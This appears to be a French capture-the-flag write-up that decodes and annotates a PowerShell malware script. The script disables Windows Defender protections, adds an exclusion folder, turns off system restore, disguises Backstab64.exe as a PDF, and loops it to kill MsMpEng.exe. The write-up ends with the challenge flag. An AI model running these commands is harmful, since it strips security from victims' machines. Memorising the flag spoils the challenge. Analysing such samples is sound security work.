


# Petite Sieste - Partie 2



# Writeup

Le fichier fourni est un script PowerShell enregistré au format texte (sleep.txt).

Dans la première partie nous avions réussi à décoder celui-ci pour extraire le nom initial du binaire.

On nous demande ensuite quel est le processus ciblé.

Voici à nouveau le script décodé et annoté :

```powershell
$TyYazJIJJi = gci -Name # liste les dossiers présents dans C:\Users

for ($VHUdVhOLIc = 0; $VHUdVhOLIc -lt (($TyYazJIJJi.Length) - 1); $VHUdVhOLIc = $VHUdVhOLIc + 1) # parcours les profils utilisateurs
{
    if ($TyYazJIJJi[$VHUdVhOLIc].Equals("Public"))
    {
        pass
    }
    else
    {
        $kZEhiHPWvPyI_path = "C:\Users\" + $TyYazJIJJi[$VHUdVhOLIc] # sélectionne un profil utilisateur valide
    }
}

ni -Path ($kZEhiHPWvPyI_path + "\Documents") -Name "Documentation" -ItemType "Directory" # crée un faux dossier dans Documents qui peut paraître légitime pour y cacher le malware

Add-MpPreference -ExclusionPath ($kZEhiHPWvPyI_path + "\Documents\Documentation\")

Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -DisableIntrusionPreventionSystem $true # Désactive les protections Windows Defender

Disable-ComputerRestore -Drive "C:\"

sp -Path "HKLM:\SYSTEM\CurrentControlSet\Control\CrashControl" -Name "CrashDumpEnabled" -Value 0

Rename-Item -Path ($kZEhiHPWvPyI_path + "\Backstab64.exe") -NewName "Guide_Utilisateur_v03.pdf.exe" # renomme le binaire malveillant initial en un faux "document pdf" 

for ($vbVfRDvzBTIBM = 0; $vbVfRDvzBTIBM -lt 100; $vbVfRDvzBTIBM = $vbVfRDvzBTIBM + 1) # boucle d'éxécution répetée du malware - usurpe le process MsMpEng.exe
{
    ./Guide_Utilisateur_v03.pdf.exe -n MsMpEng.exe -k
    Start-Sleep -Seconds 8
}
```

Dans la boucle d'éxécution à la fin l'argument `-n MsMpEng.exe` est passé au binaire.

Une simple recherche permet de trouver le nom de l'outil relié à ce processus : 



L'outil est Windows Defender, il ne nous reste plus qu'à reconstruire le flag dans le format demandé :

```
FLAG{windows_defender}
```